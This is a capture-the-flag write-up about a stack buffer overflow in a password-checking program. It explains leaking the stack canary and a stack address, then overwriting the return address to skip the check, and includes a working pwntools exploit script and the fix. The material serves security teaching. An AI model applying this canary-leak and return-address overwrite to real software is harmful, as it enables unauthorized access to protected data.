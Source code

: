 Challenge Name
==============

Overview
--------
The given program tried to protect a file by revealing its content only if the caller provided the correct password for it.

Vulnerability
-------------
To compare the hashed password with the saved hash the programm allocates a buffer for the user input and offeres three tries to enter it. While reading form sdtin it loops until a limit ```MAX_P_LEN``` with unknown size is met or the character read is a newline character. This limit is larger than the size of the buffer which can be abused for a buffer overflow attack.  
However there is a canary protection mechanism in place which enables detection of such attacks and aborts the program in that case. In this case this didn't stop us from still breaking it because of the calls to ```fflush(stdout)``` and the subsequent calls to ```printf(...)```.

Exploitation
------------
To subvert the program I first played around with it in gdb and looked at the diasembled main and check functions to see what I could do. I noticed that after the call to check in main a jump if equal instruction was made on the return value of check and something else. Inspecting the stack frame of check I found a value that was just a little higher than the address of the jump instruction. This had to be the return address that I could modify to bypass the check and make the program open the file without providing a valid password.  
Next I had to solve reading out the canary at runtime since a few runthroughs and stack inspections in gdb showed me that it was dynamically generated. There was a pattern in it though, its least significant byte was always ```\0``` so overwriting it with a ```\n``` would make the program output the rest of the word wich I would read for to insert into my payload.  
When this succeeded I ran into another problem, the program showed me the message ```LOGGED IN!``` but there was no flag and it segfaulted. I took this as an indicator that there was another value in the stack which I replaced with a value from gdb that was an address and differed when ran outside of the debugger. I read the values between the canary and the return address at runtime just like I did with the canary overwriting the least significant byte (which was the one that differed) because it didn't occur to me that I only had to do this because of the leading ```\0``` in the canary. Since I didn't find the differing word I thougth my assumption was wrong and spent hours trying different things going almost insane... Since I ran out of ideas I contacted someone who I knew of had the same problem (correct message but no flag) like me, bernikir, in the fsinf mattermost Introduction to Security channel to verify that my assumptions were right. He told me that I should just try to not overwrite the least significant byte of the word I was trying to read which worked out perfectly well and fixed my exploit to hand me the flag.  
This is my exploit:  
```python
#!/usr/bin/python
from __future__ import print_function
import sys
from pwn import *


def main():
    responses = []

    p = process(sys.argv[1])

    p.sendline('A'*32)
    responses.append(p.recvline())
    canary = '\x00' + p.recv(3)

    p.sendline('A'*43)
    responses.append(p.recvline())
    stack_addr = p.recv(4)
 
    payload = 'A'*32 + canary + p32(0xf7dd03fc) + p32(0x0804a000) + stack_addr + p32(0x08048831)

    p.sendline(payload)
    responses.append(p.recvall())

    print()
    pretty_print('canary', canary)
    pretty_print('stack address', stack_addr)
    pretty_print('payload', payload)

    for res in responses:
        print(res, end='')

def pretty_print(tag, value):
    print("%s : %d %s %s" % (tag, len(value), value.encode('hex'), value))

if __name__ == '__main__':
    main()
```


Solution
--------
The size of ```MAX_P_LEN``` should be equal to then size of the buffer - 1.

